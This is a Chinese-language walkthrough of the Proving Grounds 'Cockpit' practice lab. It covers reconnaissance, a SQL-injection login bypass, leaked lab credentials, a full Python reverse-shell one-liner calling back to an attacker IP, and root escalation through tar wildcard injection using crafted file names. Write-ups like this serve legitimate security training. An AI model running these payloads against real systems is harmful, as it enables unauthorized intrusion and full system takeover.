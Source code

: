 ```yaml
---
title: Proving Grounds Practice-Cockpit
date: 2025-6-08 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250608154627119](./Cockpit/image-20250608154627119.png)

## 80端口

扫目录得到一个`login.php`，其他是放一些图片和css代码的文件夹，没有有用信息

![image-20250608184236305](./Cockpit/image-20250608184236305.png)

## 9090端口

扫目录得到ping目录

![image-20250608184257062](./Cockpit/image-20250608184257062.png)

并且连接至攻击机时，本地会收到请求

![image-20250608184320222](./Cockpit/image-20250608184320222.png)

![image-20250608184326448](./Cockpit/image-20250608184326448.png)

# 80-login.php-SQL-Inject

当以单引号闭合时会报`sql`语句的错误

![image-20250608184615521](./Cockpit/image-20250608184615521.png)

单引号闭合并且加上井号注释后面的sql语句时可以成功登录

![image-20250608184748856](./Cockpit/image-20250608184748856.png)

密码是base64加密，解密后可以得到正确密码

```
james:canttouchhhthiss@455152
cameron:thisscanttbetouchedd@455152
```

# 9090端口

通过james的账号密码可以登录到9090端口开启的服务，这是对虚拟机进行管理的一个页面，可以直接在web终端中命令执行

![image-20250608190447664](./Cockpit/image-20250608190447664.png)

也可以通过web终端反弹shell到本地

反弹shell:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.198",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

![image-20250608190756391](./Cockpit/image-20250608190756391.png)

# tar命令提权

![image-20250608192032734](./Cockpit/image-20250608192032734.png)

james用户可以用root权限执行tar命令

![image-20250608191159465](./Cockpit/image-20250608191212113.png)



![image-20250608191204572](./Cockpit/image-20250608191204572.png)



tar命令有两个参数 `--checkpoint` `--checkpoint-action`

`–checkpoint[=NUMBER]` 显示每个Numbers记录的进度消息（默认值为10）

`–checkpoint-action=ACTION` 在每个checkpoint（检查点）上执行ACTION

这里的`–checkpoint-action`选项，用于指定到达检查点时将要执行的程序，这将允许我们运行一个任意的命令。因此，选项`–checkpoint=1` 和 `–checkpoint-action=exec=sh shell.sh`作为命令行选项交给了tar程序。

 

所以当可以通过sudo或suid执行tar命令时，可以通过该方法进行提权

```
echo "/bin/bash" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
```

当执行tar 命令时，通配符* 会自动被替换成参数，完整的命令就成下面

```
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
 --checkpoint=1 --checkpoint-action=exec=sh shell.sh
```

shell.sh里面又是我们的shell命令，所以自然而然会给我们一个高权限shell，提权成功

![image-20250608192202491](./Cockpit/image-20250608192202491.png)